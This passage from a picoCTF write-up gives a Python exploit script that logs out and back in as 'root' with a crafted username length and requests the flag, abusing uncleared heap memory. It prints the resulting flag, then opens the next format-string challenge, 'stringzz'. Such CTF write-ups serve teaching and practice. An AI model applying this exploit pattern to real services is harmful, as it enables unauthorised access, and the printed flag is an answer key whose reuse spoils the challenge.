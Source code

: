 ```Python
print "## logout"

msg = s.recvuntil("> ") # Enter you command:
print msg
if re.findall("Invalid",msg):
    print s.recvuntil("> ") # Enter you command:
    s.sendline("logout")
    print "## logout"
    print s.recvuntil("> ") # Enter you command:
    s.sendline("login")
    print "## login"
else:
    s.sendline("login")
    print "## login"

print s.recvuntil("\n") # Please enter the length of your username
s.sendline("5")
print "## 5"

print s.recvuntil("\n") # Please enter your username
s.sendline("root")
print "## root"

print s.recvuntil("> ") # Enter you command:
s.sendline("print-flag")
print "## print-flag"

print s.recvuntil("> ") # Enter you command:
s.sendline("print-flag")
print "## print-flag"

print s.recv()
```

Flag: `picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_ac0e0e6a}`





<br /><br />
<br /><br />
## [Binary Exploitation]: stringzz (300 points)
- - -
### Challenge
> Use a format string to pwn this program and get a flag.
<br /><br />
Hint: http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

Attachment:

- vuln (ELF 32-bit)
- vuln.c
